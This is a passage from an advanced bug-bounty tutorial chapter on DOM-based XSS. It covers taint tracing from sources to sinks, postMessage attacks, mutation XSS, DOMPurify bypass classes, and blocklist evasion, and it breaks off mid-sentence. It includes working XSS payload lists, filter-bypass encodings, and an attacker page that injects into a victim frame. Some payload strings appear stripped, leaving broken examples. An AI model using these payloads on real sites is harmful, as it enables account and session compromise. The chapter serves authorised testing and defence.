







**Level:** Advanced · **Track:** Bug Bounty & AppSec · **Read time:** 255 min

This is Chapter 2 of the Client-Side notebook — Notebook 24. The previous chapter built the
XSS mental model from the ground up and spent its length on the two server-driven variants:
Reflected XSS, where your payload bounces straight back in the HTTP response, and Stored
XSS, where the server saves it and serves it to other users later. In both, the vulnerable
code lives on the server, and you can see your payload in the raw response body if you view
source or look at Burp's response tab.

This chapter is about the XSS that is invisible in the response body. In DOM-based XSS the
server sends a perfectly clean page, and the vulnerability lives entirely in the JavaScript
that runs *after* the page loads — client code that takes attacker-controlled data from a
"source" (the URL, `postMessage`, `localStorage`) and feeds it into a dangerous "sink"
(`innerHTML`, `eval`, `document.write`) without ever asking the server. Because the server
never reflects anything, server-side output encoding, the classic XSS defense, does nothing
to stop it, and grep-for-my-payload-in-the-response methodology finds none of it.

We then move to the two skills that separate someone who *understands* XSS from someone who
just fires a scanner: **mutation XSS (mXSS)**, where markup that is completely inert when
you write it gets *mutated* by the browser's own HTML parser into something that executes,
defeating sanitisers that validated the "before" string; and **filter, sanitiser, WAF, and
CSP bypass** — the craft of getting script execution when there is a blocklist, a
`DOMPurify` call, a Web Application Firewall, or a Content-Security-Policy header standing
in your way. By the end you should be able to look at a blob of client-side JavaScript, find
the source-to-sink taint by reading it, and reason about whether a given sanitiser
configuration is actually safe or merely looks safe.

Everything here assumes you have explicit authorisation for any target you test. XSS proofs
should be minimal and non-destructive — an `alert(document.domain)`, a benign DNS/HTTP
callback, or a screenshot of `document.cookie` length — never mass exploitation, never real
victim session theft outside a lab you own.

## Part 1: Recap — The Three Families, and Where DOM XSS Fits

Before going deep, anchor the taxonomy from Chapter 1, because the whole point of this
chapter is that one family behaves nothing like the other two.

All XSS is the same underlying bug — untrusted data becomes executable code in a victim's
browser — but the three families differ in *where the injection happens* and therefore in
*how you find and fix them*.

| Family | Where the untrusted data is injected | Visible in HTTP response body? | Fixed primarily by | Server logs show it? |
|---|---|---|---|---|
| **Reflected** | Server embeds request data into the immediate response | Yes | Server-side output encoding | Yes (payload in request) |
| **Stored** | Server saves data, embeds it into later responses | Yes (in the later response) | Server-side output encoding + input validation | Yes (payload in a request at some point) |
| **DOM-based** | Client JavaScript reads a source and writes it to a sink, in the browser | **No** — the response is clean | Client-side: safe sinks, Trusted Types, sanitisation | Often **no** — the source (e.g. `#fragment`) never reaches the server |

That last row is the crux. Consider a URL like:

```
https://shop.example/product?id=42#lang=
```

The part after the `#` — the **fragment**, also called the hash — is *never sent to the
server* by the browser. The server sees only `GET /product?id=42`. If the vulnerability is
DOM-based and driven by `location.hash`, there is nothing in any server log, nothing in the
WAF's request record, and nothing in the response body to grep for. The exploit exists
purely because some JavaScript on the page did `element.innerHTML = location.hash.slice(1)`.

That is why DOM XSS is both under-reported by automated tools and disproportionately
valuable in bug bounty: the scanners that look for reflections in response bodies miss it,
and the defenders who added output encoding on the server think they are safe.



Keep this diagram in mind for the whole chapter. The server-side path is a straight line you
can watch in Burp. The DOM path forks *inside the browser*, after the response is done, and
you can only see it by reading the JavaScript or watching the DOM change.

## Part 2: Sources and Sinks — The Vocabulary of DOM XSS

DOM-based XSS is best understood as a **taint-flow** problem: attacker-controlled data
enters at a *source*, flows through the program, and reaches a *sink* that can turn a string
into code or markup. If a source can reach a dangerous sink without adequate sanitisation in
between, you have DOM XSS.

### Sources — where attacker-controlled data enters client JS

A **source** is any JavaScript property or API that returns data an attacker can influence.
The single most important thing to internalise: **the entire URL is attacker-controlled**,
including parts the server never sees.

| Source | What the attacker controls | Reaches server? |
|---|---|---|
| `location`, `location.href` | The whole URL | Path + query only |
| `location.search` | The `?query=string` | Yes |
| `location.hash` | The `#fragment` | **No** |
| `location.pathname` | The URL path | Yes |
| `document.URL`, `document.documentURI` | Whole URL string | Path + query |
| `document.referrer` | The `Referer` — controllable by linking from an attacker page | N/A |
| `window.name` | Persists across navigations; attacker sets it before redirecting the victim | No |
| `postMessage` event `.data` | Cross-window messages; attacker frames the target or opens it | No |
| `localStorage` / `sessionStorage` | Persisted values; poisoned earlier, read later | No |
| `document.cookie` | If an attacker can set a cookie (e.g. subdomain), it becomes a source | Yes |
| `history.state`, `history.pushState` data | Navigation state | No |
| WebSocket / `fetch` / `XMLHttpRequest` responses | If the attacker controls the responding endpoint or a reflected value in it | Depends |

`location.hash`, `window.name`, and `postMessage` deserve special attention because they are
**invisible to the server**, which is exactly what makes them the classic DOM XSS entry
points. A pentester or bug hunter reading client code should treat any read of these three as
a lead worth chasing to its sink.

### Sinks — where a string becomes code or markup

A **sink** is any API that interprets a string as HTML, JavaScript, or a URL that can carry
script. Feeding attacker data to one of these, unescaped, is the actual vulnerability.

| Sink | Category | Executes script how |
|---|---|---|
| `eval(str)` | JS execution | Runs `str` as JavaScript directly |
| `Function(str)()`, `setTimeout(str)`, `setInterval(str)` | JS execution | String argument is compiled as code |
| `element.innerHTML =`, `outerHTML =` | HTML parsing | Parses markup; ``, `<svg onload>` fire |
| `document.write()`, `document.writeln()` | HTML parsing | Injects markup into the document stream |
| `element.insertAdjacentHTML()` | HTML parsing | Parses markup fragment |
| `element.setAttribute('href', x)` / `a.href = x` | URL | `javascript:` URLs execute on click |
| `location = x`, `location.href = x`, `location.assign()` | Navigation | `javascript:` scheme executes |
| `element.src` on `<script>`, `<iframe>` | Resource load | Loads and runs attacker script |
| jQuery `$(x)`, `.html(x)`, `.append(x)`, `.before(x)`, `.after(x)` | HTML parsing | jQuery routes to `innerHTML`-like behaviour |
| `range.createContextualFragment(x)` | HTML parsing | Parses markup |
| Angular/`$compile`, template injection sinks | Framework | Framework re-evaluates markup as a template |

The mental model is a pipe:



The whole game of finding DOM XSS is: enumerate the sources the page reads, enumerate the
sinks it writes to, and determine whether any source can reach any sink. The whole game of
*fixing* it is putting correct, sink-aware sanitisation on the `T` node — or removing the
dangerous sink entirely.

## Part 3: A Minimal DOM XSS, Dissected Line by Line

Nothing teaches this faster than a tiny concrete example. Here is a "language switcher" that
reads the desired language from the URL fragment and shows a friendly banner:

```html
<!-- Server sends this HTML, completely clean, no user input in it -->
<div id="welcome"></div>
<script>
  // SOURCE: location.hash is attacker-controlled and never sent to the server
  var lang = decodeURIComponent(location.hash.slice(1));  // strip the leading '#'
  // SINK: innerHTML parses whatever string we give it as HTML
  document.getElementById('welcome').innerHTML = 'Language: ' + lang;
</script>
```

The server-side developer did everything "right" on the server: there is no user input in
the response at all. View-source shows static HTML. A reflected-XSS scanner sends
`?q=<script>` and sees nothing reflected, and reports the page clean.

But visit:

```
https://app.example/#
```

Step through what the browser does:

1. Loads the clean HTML. The `<div id="welcome">` is empty.
2. Runs the script. `location.hash` is `#`.
3. `.slice(1)` removes the `#`; `decodeURIComponent` leaves the markup intact.
4. `innerHTML = 'Language: ' + ''` — the browser
   parses that string as HTML, creates an `` element whose `src` is invalid, the load
   fails, and the `onerror` handler runs `alert(document.domain)`.

Script executed. No server involvement. Note we used `` rather than
`<script>`, because **`innerHTML` does not execute `<script>` elements it inserts** — a
foot-gun that trips up beginners who try `#<script>alert(1)</script>` and conclude the page
is safe. The browser inserts the `<script>` node but does not run it. ``,
`<svg onload>`, `<iframe onload>`, and similar event-handler-carrying elements *do* fire,
which is why they are the canonical `innerHTML` payloads.

**Bug bounty note:** this exact pattern — read a fragment/param, write to `innerHTML` — is
one of the most common real DOM XSS findings on production sites, especially in analytics
snippets, "back to previous page" links, and single-page-app routers. When you find a page
that changes based on the `#hash` without a server round-trip, you have found a source; now
go find the sink.

## Part 4: Finding DOM XSS — A Rigorous Methodology

You cannot find DOM XSS by grepping response bodies. You find it by (a) making the browser
tell you when a dangerous sink is hit, and (b) reading the JavaScript to confirm the
source-to-sink path. Here is a repeatable methodology.

### Step 1 — Map the sources the page actually reads

Open DevTools and search all loaded scripts (Chrome DevTools: `Ctrl+Shift+F` / "Search all
files") for the source patterns:

```
location.hash
location.search
location.href
document.URL
document.referrer
window.name
postMessage
localStorage
sessionStorage
```

Every hit is a place attacker data enters the program. Note the variable it gets assigned
to.

### Step 2 — Map the sinks

Search the same scripts for the sink patterns:

```
innerHTML
outerHTML
insertAdjacentHTML
document.write
eval(
setTimeout(
setInterval(
new Function
.html(          // jQuery
.append(        // jQuery
$(              // jQuery selector as sink
location =
location.href =
.src =
```

### Step 3 — Trace source → variable → sink

For each source variable, follow it through the code. Does it get passed, concatenated, or
assigned into any sink? DevTools helps two ways:

- **Set a breakpoint on the sink.** In Chrome DevTools → Sources, or via the command menu,
  you can add a **DOM breakpoint** ("break on subtree modifications") on the element that
  changes, or a conditional breakpoint on the exact line that does `innerHTML =`. Reload
  with a marker in the source (e.g. `#canary123`) and watch the call stack — it shows you
  the whole path from the source read to the sink write.
- **Use the built-in taint hints.** Modern Chrome DevTools flags some sink assignments; and
  Burp Suite's DOM Invader (below) instruments sources and sinks automatically.

### Step 4 — Prove execution with a canary, then a payload

Send a harmless canary through the source first (`#zzcanary`) and confirm it lands in the
DOM near a sink. Then craft the context-appropriate payload (Part 5) and confirm
`alert(document.domain)` — always `document.domain`, not `alert(1)`, so a triager can see
*which origin* executed, which matters when iframes and sandboxes are involved.



### Tooling: Burp Suite DOM Invader (from scratch)

**What it is.** DOM Invader is a browser extension bundled with Burp Suite's built-in
Chromium browser. It instruments the page's JavaScript so that every source read and every
sink write is tracked, and it will tell you exactly which source flows to which sink,
automatically test canaries, and in many cases generate a working proof-of-concept URL for
you. It exists because manually tracing minified single-page-app bundles by hand is brutal.

**Enabling it.**

1. Open Burp Suite → **Proxy** → **Intercept is off** → click **Open browser** (Burp's
   embedded Chromium).
2. In that browser, click the Burp Suite extension icon → **DOM Invader** → toggle it
   **on**. Optionally enable **Inject canary into all sources** and **Redirection** /
   **postMessage interception**.
3. Browse the target. Open DevTools → the **DOM Invader** tab. It lists every source→sink
   flow it observed, with the canary value, the sink name, and a **"Test"** / **"Exploit"**
   button that appends a payload and checks for execution.

**Why it matters:** on a real single-page app with hundreds of KB of minified JS, DOM
Invader turns "read all this code" into "click the flow it found." It is the single biggest
time-saver for DOM XSS hunting. Still, understand the manual method — DOM Invader can miss
flows behind unusual sinks or framework indirection, and you must reason about context to
weaponise what it finds.

## Part 5: Injection Contexts in DOM XSS

Chapter 1 established that the payload must match the *context* it lands in. DOM XSS has the
same contexts, but you now determine the context by reading which sink is used and what
string surrounds your data, rather than by viewing the server's response.

### 5.1 HTML-markup context (innerHTML / document.write / insertAdjacentHTML)

Your data is parsed as HTML. Use elements with event handlers that fire without user
interaction:

```html

<svg onload=alert(document.domain)>
<iframe src=javascript:alert(document.domain)>
<body onload=alert(document.domain)>
<video><source onerror=alert(document.domain)>
<details open ontoggle=alert(document.domain)>
```

Remember: raw `<script>` inserted via `innerHTML` does **not** run. If you can only inject
into `innerHTML`, do not reach for `<script>`; reach for `onerror`/`onload`.

### 5.2 JavaScript-execution context (eval / setTimeout / Function)

If the sink executes JavaScript directly, you do not need HTML tags at all — your data *is*
code. If the code does `eval('config = ' + userData)`, then `userData` of:

```js
1;alert(document.domain)//
```

executes cleanly. When your data lands inside a string literal in the eval'd code, break out
of the quotes first:

```js
';alert(document.domain);'
```

### 5.3 Attribute / URL context (href, src, location assignment)

If your data is assigned to `a.href`, `location`, `iframe.src`, or similar, the
`javascript:` scheme is your vector:

```
javascript:alert(document.domain)
```

Real sites often build a "return URL" or "next" parameter and assign it to `location.href`
after login. A `next=javascript:alert(document.domain)` that gets executed is a classic
DOM-based open-redirect-to-XSS escalation. Note browsers block `javascript:` in the top-frame
address bar navigation in some cases, but assignment from script to `location` still runs it
in many contexts, and `href` on a clicked anchor reliably does.

### 5.4 Framework / template context

In an Angular (pre-strict) page, unescaped data placed into a region the framework compiles
can be interpreted as an Angular expression: `{{constructor.constructor('alert(1)')()}}`.
This is client-side template injection, a cousin of DOM XSS, and it is why frameworks ship
strict-mode / CSP-aware templating.

| Sink type | Context | Go-to payload shape |
|---|---|---|
| `innerHTML`, `document.write` | HTML | ``, `<svg onload=...>` |
| `eval`, `setTimeout(str)`, `Function` | JS | `;alert(document.domain)//` or `'-alert(1)-'` |
| `a.href`, `location=` | URL | `javascript:alert(document.domain)` |
| Angular/template region | Template | `{{constructor.constructor('alert(1)')()}}` |
| jQuery `$(x)` with `x=''` | HTML | `` (jQuery <3.5 `$('#'+hash)`) |

## Part 6: The jQuery `$()` Selector Sink and Other Library Footguns

A huge share of historical DOM XSS came from jQuery, because for years `$(x)` did double
duty: if `x` looked like a selector it selected; if it looked like HTML it *created and
parsed* it. Code like:

```js
// Common pattern: scroll to the element named in the hash
$(location.hash);         // e.g. #
```

Before jQuery 1.9/3.5-era hardening, `$('#')` would parse the
markup and fire the handler, because jQuery saw a string starting with something HTML-ish.
The fix history matters for testers: **jQuery 3.5.0** changed how `.html()` and the parser
handle certain self-closing and mutation-prone tags specifically to kill an mXSS vector, and
older `$(hashstring)` behaviour was tightened. On a target, always check the jQuery version
(`$.fn.jquery` in the console) — an old jQuery is a strong DOM XSS lead.

Other library sinks to watch:

- **jQuery** `.html()`, `.append()`, `.prepend()`, `.before()`, `.after()`, `.wrap()`,
  `.replaceWith()` — all route to HTML parsing.
- **Underscore/Lodash `_.template`** — server-style template injection on the client if the
  template string is attacker-influenced.
- **Handlebars/Mustache** used with triple-stache `{{{ raw }}}` — bypasses escaping.
- **AngularJS `ng-bind-html`** without `$sce` trust, or `$compile` on attacker markup.

**Red team / bug bounty relevance:** legacy jQuery on a marketing or admin subdomain is one
of the highest-yield DOM XSS hunting grounds, because those pages are often the least
maintained and still ship jQuery 1.x with `$(location.hash)` scroll helpers.

## Part 7: postMessage — Cross-Window DOM XSS

`postMessage` is how two browsing contexts (a page and an iframe, or a page and a popup it
opened) talk across origins. The receiving side registers a handler:

```js
window.addEventListener('message', function (e) {
  // VULN 1: no origin check — accepts messages from ANY origin
  // VULN 2: e.data flows straight into a sink
  document.getElementById('out').innerHTML = e.data;
});
```

Two independent bugs here, and you exploit them together:

1. **Missing/weak origin check.** A secure handler must verify `e.origin` against an
   allowlist (`if (e.origin !== 'https://trusted.example') return;`). Many do not, or do a
   broken check like `e.origin.indexOf('trusted.example') !== -1` (which
   `https://trusted.example.attacker.com` passes) or `e.origin.startsWith('https://trusted')`
   (which `https://trusted.attacker.com` passes).
2. **Sink.** `e.data` reaches `innerHTML`/`eval`/etc.

**Exploit.** Host an attacker page that frames or opens the target and posts a payload to it:

```html
<!-- attacker.example/xss.html -->
<iframe src="https://victim.example/widget" id="f"></iframe>
<script>
  const f = document.getElementById('f');
  f.onload = () => {
    // Send hostile data into the victim's message handler
    f.contentWindow.postMessage(
      '',
      '*'                    // target origin '*' — we don't care, we're attacking them
    );
  };
</script>
```

When the victim opens `attacker.example/xss.html` (or you get the widget embedded), the
message fires, `innerHTML` parses your markup, and script runs in `victim.example`'s origin.



**Methodology for postMessage bugs:** search scripts for `addEventListener('message'` /
`onmessage`, then for each handler check (1) is there an `e.origin` allowlist and is it
strict, and (2) where does `e.data` go. Burp DOM Invader has a dedicated **postMessage
interceptor** that logs every message and its handler, which makes this far faster than
manual auditing.

## Part 8: Mutation XSS (mXSS) — When the Parser Turns Safe Markup Into Script

This is the part that separates senior testers from tool operators. Mutation XSS is XSS that
does not exist in the string you inject — it is *created by the browser* when it re-parses
and re-serialises that string. The defining consequence: **a sanitiser can inspect your
input, correctly conclude it contains no script, allow it, and then the browser mutates the
allowed-but-inert markup into live script.** The sanitiser validated the "before"; the
browser executed the "after".

### 8.1 Why mutation happens at all

Browsers do two relevant things:

1. **The HTML parser is forgiving and normalising.** It fixes broken markup, closes tags,
   moves nodes that are in illegal positions, and applies special parsing rules inside
   "foreign content" (`<svg>`, `<math>`) and inside special elements (`<template>`,
   `<noscript>`, `<style>`, `<title>`, `<textarea>`, `<xmp>`). The DOM you get is often not
   a literal reflection of the bytes you supplied.
2. **`innerHTML` round-trips through serialisation.** When code reads `el.innerHTML` and
   writes it somewhere (a very common sanitiser pattern: parse into a detached node,
   inspect, then re-serialise with `.innerHTML` and set it on the live DOM), the string is
   *serialised back out* from the DOM. Serialisation + re-parsing is where mutation bites:
   the "namespace" or context of a node changes between the two parses, and markup that was
   inert data in the first parse becomes an executable element in the second.

The classic engine of mXSS is the boundary between **HTML content** and **foreign content**
(SVG/MathML), because the parsing rules differ. Something that is treated as *text* inside
one context becomes *markup* when the surrounding element is dropped or the context flips
during a re-serialisation.

### 8.2 A canonical mXSS shape

Historically, payloads of this shape defeated multiple sanitisers:

```html
<svg></p><style><a id="</style>">
```

or the well-known `<noscript>`/comment and `<math>`/`<mtext>` context confusions, e.g.:

```html
<math><mtext><table><mglyph><style><!--</style>
```

The mechanism, in words: the sanitiser parses this, sees the dangerous `` as
being *inside* a `<style>`/comment/`<mtext>` context where it is inert text, and allows the
subtree. But when the cleaned markup is re-inserted with `innerHTML` in a *different*
context (no longer inside `<math>`/foreign content, or with the wrapping element stripped),
the parser re-tokenises and the `` is now a real element in HTML namespace — and
it fires. The exact strings that work depend on the sanitiser version and browser; the
*principle* — context-switch between two parses — is durable.

### 8.3 The `noscript`, `style`, `title`, `textarea` re-parse trick

Elements whose contents are parsed as raw text (`<style>`, `<title>`, `<textarea>`, `<xmp>`,
`<noscript>` when scripting enabled) are mutation goldmines. A sanitiser that keeps a
`<style>` element but trusts that "text inside style can't be script" can be defeated when
the serialise/re-parse step causes the `</style>` boundary to be interpreted earlier than
expected, exposing following markup as live HTML. This is why robust sanitisers either drop
these elements entirely or are written with explicit awareness of the raw-text re-parse
hazard.

### 8.4 Why this matters for DOMPurify specifically

DOMPurify — the de-facto client-side HTML sanitiser (Part 9) — is *specifically engineered*
against mXSS, and its release history is a running battle: researchers find a mutation that
survives the clean, DOMPurify ships a fix, repeat. That means:

- **DOMPurify is only as safe as its version.** An app pinned to an old DOMPurify is exposed
  to every mXSS bypass discovered since. On a target, find the version
  (`DOMPurify.version` in console) and check it against known bypass write-ups.
- **Configuration matters more than presence.** DOMPurify with permissive options
  (`ALLOWED_TAGS` including `svg`/`math`/`style`, `SAFE_FOR_TEMPLATES` off, custom hooks
  that re-add attributes) can reintroduce mutation surface even on a current version.



**The senior-tester takeaway:** when you see a sanitiser in the pipeline, do not conclude
"safe." Ask: which sanitiser, which version, which config, and does the cleaned output get
inserted in the same parsing context it was validated in? mXSS lives in the gap between
those two parses.

## Part 9: DOMPurify From Scratch — and How Its Bypasses Work

Because DOMPurify is what you will actually meet in the wild, treat it as a tool to learn
from zero.

**What it is.** DOMPurify is a fast, client-side, DOM-only XSS sanitiser for HTML, MathML,
and SVG. You give it a dirty HTML string; it returns a clean string (or DOM) with dangerous
elements/attributes removed, safe to hand to `innerHTML`. It exists because writing your own
HTML sanitiser with regexes is a guaranteed loss — the parser has too many edge cases — and
DOMPurify delegates parsing to the browser, then walks the resulting DOM and strips anything
unsafe.

**Basic usage:**

```html
<script src="https://cdn.jsdelivr.net/npm/dompurify@3/dist/purify.min.js"></script>
<script>
  const dirty = location.hash.slice(1);
  const clean = DOMPurify.sanitize(dirty);     // returns a safe HTML string
  document.getElementById('out').innerHTML = clean;   // now safe to inject
</script>
```

Out of the box, on a current version, this stops the naive payloads: `` comes back as `` with the handler stripped;
`<script>` is removed entirely.

**How it gets bypassed — three real classes:**

1. **Outdated version + known mXSS.** Every few releases a mutation bypass is published
   (context confusions in `<svg>`/`<math>`/`<style>`/`<template>`, `nesting`/namespace
   tricks, sanitiser/serializer disagreements). If the app ships an old `DOMPurify.version`,
   look up the mXSS bypass that lands after that version and try it. This is the most common
   real-world DOMPurify "bypass" — the code isn't clever, the version is just old.

2. **Dangerous configuration.** DOMPurify only defends what its config lets it. Examples of
   self-inflicted holes:
   - `ALLOWED_ATTR` re-adding event handlers or `href`/`xlink:href` without URL scheme
     checks → `javascript:` URIs survive.
   - `ADD_TAGS: ['style']` / allowing `<style>` reopens CSS-context mutation surface.
   - Using the output with `RETURN_DOM_FRAGMENT`/hooks that re-add attributes after
     sanitisation.
   - `SANITIZE_DOM: false` or custom `uponSanitizeAttribute` hooks that trust attacker
     values.

3. **Wrong sink after clean.** DOMPurify sanitises *HTML*. If the developer takes the
   "clean" string and puts it somewhere DOMPurify never promised to protect — a
   `javascript:` URL, an `eval`, an attribute that's later read into a script context, or a
   different parsing context than intended — the sanitiser's guarantee doesn't apply. A
   common one: sanitising for HTML then inserting into an SVG/`foreignObject` or a template
   context.

| DOMPurify pitfall | Why it fails | Fix |
|---|---|---|
| Old pinned version | Known mXSS bypass exists | Keep current; watch releases |
| `ADD_TAGS`/`ADD_ATTR` widening | Re-adds unsafe surface | Keep default allowlist; justify every addition |
| Post-sanitise hooks re-adding attrs | Reintroduces handlers/URLs | Don't mutate output; sanitise last |
| Output used in non-HTML sink | Guarantee is HTML-only | Sanitise/encode for the actual sink |
| `USE_PROFILES` misuse (svg/mathML on) | Enables foreign-content mutation surface | Only enable profiles you render |

**Blue team usage:** if you own the app, the correct posture is current DOMPurify + default
allowlist + Trusted Types (Part 14) so the browser refuses raw string→sink assignments
entirely, making "forgot to sanitise once" unexploitable.

## Part 10: Filter and Blocklist Bypass — The Craft

Not every defence is a real sanitiser. Plenty of apps ship home-grown blocklists ("strip the
word `script`", "remove `onerror`", "block `<`") and WAFs that pattern-match payloads. These
fail to a systematic bag of tricks. The principle: **there are many equivalent ways to
express the same execution, and a blocklist can only enumerate the ones its author thought
of.**

### 10.1 Case, encoding, and whitespace

Blocklists that match literal strings die to case and encoding variation:

```html
<ScRiPt>alert(1)</ScRiPt>

          <!-- HTML entities decode in attribute -->
<a href="javas&#99;ript:alert(1)">x</a>         <!-- entity inside a URL scheme -->
<svg onload=alert&#40;1&#41;>
```

Browsers decode HTML entities in attribute values and text, so `&#40;` becomes `(` after
parsing — the blocklist sees `&#40;`, the browser sees `(`.

### 10.2 Tag/handler variety (when one is blocked, use another)

If `<script>` and `onerror` are blocked, the HTML event-handler surface is enormous:

```html
<svg onload=alert(1)>
<body onload=alert(1)>
<details open ontoggle=alert(1)>
<marquee onstart=alert(1)>
<video><source onerror=alert(1)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<isindex type=image src=1 onerror=alert(1)>
<x contenteditable onblur=alert(1) autofocus>
```

There are dozens of `on*` handlers; a blocklist that removes `onerror`/`onload` still leaves
`onfocus`, `ontoggle`, `onanimationstart`, `onwheel`, etc.

### 10.3 Breaking up keywords

If the filter naively deletes the substring `javascript:`, feed it something that becomes
`javascript:` only after it deletes once, or after the browser decodes:

```html
<a href="java&#09;script:alert(1)">x</a>       <!-- tab inside the scheme -->
<a href="java&NewLine;script:alert(1)">x</a>   <!-- newline entity -->
<a href="jav&#x0A;ascript:alert(1)">x</a>
javascjavascript:ript:alert(1)                  <!-- naive single-pass strip becomes javascript: -->
```

That last one is the classic "recursive replace" bug: if the server does
